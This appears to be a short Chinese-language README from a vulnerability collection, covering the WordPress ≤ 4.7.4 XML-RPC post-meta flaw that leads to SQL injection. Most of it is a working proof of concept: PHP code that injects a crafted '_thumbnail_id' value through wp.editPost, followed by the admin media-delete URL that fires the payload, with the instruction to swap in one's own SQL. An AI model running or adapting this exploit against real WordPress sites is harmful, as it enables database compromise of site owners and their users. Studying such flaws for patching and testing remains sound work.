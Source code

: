 # WordPress ≤ 4.7.4 XML-RPC API POST META 未校验漏洞
* 官方[https://wordpress.org/news/2017/05/wordpress-4-7-5/](https://wordpress.org/news/2017/05/wordpress-4-7-5/)
* POC来自[https://medium.com/websec/wordpress-sqli-poc-f1827c20bf8e](https://medium.com/websec/wordpress-sqli-poc-f1827c20bf8e)
### POC
```php
    $usr = 'author';
    $pwd = 'author';
    $xmlrpc = 'http://local.target/xmlrpc.php';
    $client = new IXR_Client($xmlrpc);
    $content = array("ID" => 6, 'meta_input' => array("_thumbnail_id"=>"5 %1$%s hello"));
    $res = $client->query('wp.editPost',0, $usr, $pwd, 6/*post_id*/, $content);
```
## Excute The SQL Payload
以管理员的方式登陆

`http://local.target/wp-admin/upload.php`

`local.target/wp-admin/upload.php?_wpnonce=daab7cfabf&action=delete&media%5B%5D=5%20%251%24%25s%20hello`

hello换成我们的Payload
